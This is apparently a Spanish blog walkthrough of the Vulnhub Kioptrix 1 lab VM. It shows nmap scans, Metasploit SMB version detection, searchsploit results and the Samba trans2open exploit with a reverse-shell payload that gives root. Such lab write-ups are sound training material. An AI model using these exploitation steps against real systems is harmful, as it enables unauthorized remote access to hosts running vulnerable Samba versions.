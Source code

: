 ```yaml
---
title: "Vulnhub #2: Kioptrix 1"
description: Pentesting a máquina Kioptrix en Vulnhub
date: 2025-05-11
scheduled: 2025-05-11
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la máquina vulnerable desde [vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

## Descubrimiento de hosts

1. Escaneamos para descubrir hosts:
nmap -sn <ip>/<rango>

Nos da el siguiente resultado:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-10 09:23 CEST
Nmap scan report for www.adsl.vf (192.168.0.1)
Host is up (0.0048s latency).
Nmap scan report for 192.168.0.10
Host is up (0.082s latency).
Nmap scan report for 192.168.0.16
Host is up (0.00044s latency).
Nmap scan report for 192.168.0.20
Host is up (0.000081s latency).
Nmap scan report for 192.168.0.24
Host is up (0.00041s latency).
Nmap done: 256 IP addresses (5 hosts up) scanned in 15.31 seconds
```

2. Escaneamos versiones
nmap -sV <ip>

```
 ~ nmap -sV 192.168.0.24
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-10 09:26 CEST
Nmap scan report for 192.168.0.24
Host is up (0.0021s latency).
Not shown: 994 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
```

Vemos que 192.168.0.24 es un redhat con varios puertos abiertos.

Nos interesa el servicio de Samba, pero necesitamos conocer su version antes de atacar.

Con metasploit podemos ejecutar el siguiente scanner:

```
msfconsole
search /scanner/smb/ #para buscar
use /auxiliary/scanner/smb/smb_version
show options
set rhosts 192.168.0.24
```

Al lanzarlo, obtenemos lo siguiente:

```
[*] 192.168.0.24:139      - SMB Detected (versions:) (preferred dialect:) (signatures:optional)
[*] 192.168.0.24:139      -   Host could not be identified: Unix (Samba 2.2.1a)
[*] 192.168.0.24:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Una vez tenemos la version, podemos buscar si existen exploits con `searchsploit <servicio>` y `searchsplot <servicio> <version>`

Con searchsploit samba 2.2.1a nos da el siguiente resultado:

```
------------------------------- ---------------------------------
 Exploit Title                 |  Path
------------------------------- ---------------------------------
Samba 2.2.0 < 2.2.8 (OSX) - tr | osx/remote/9924.rb
Samba < 2.2.8 (Linux/BSD) - Re | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap O | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial o | linux_x86/dos/36741.py
------------------------------- ---------------------------------
Shellcodes: No Results
```

Para explotar la vulnerabilidad debemos encontrar una en su version.

En concreto, aqui tenemos la vulnerabilidad trans2open, podemos buscarla con `search trans2open` en metasploit.

Debemos configurar el payload con `set payload linux/x86/shell_reverse_tcp` y el rhosts.

Al lanzarlo con run obtenemos una shell con usuario root.
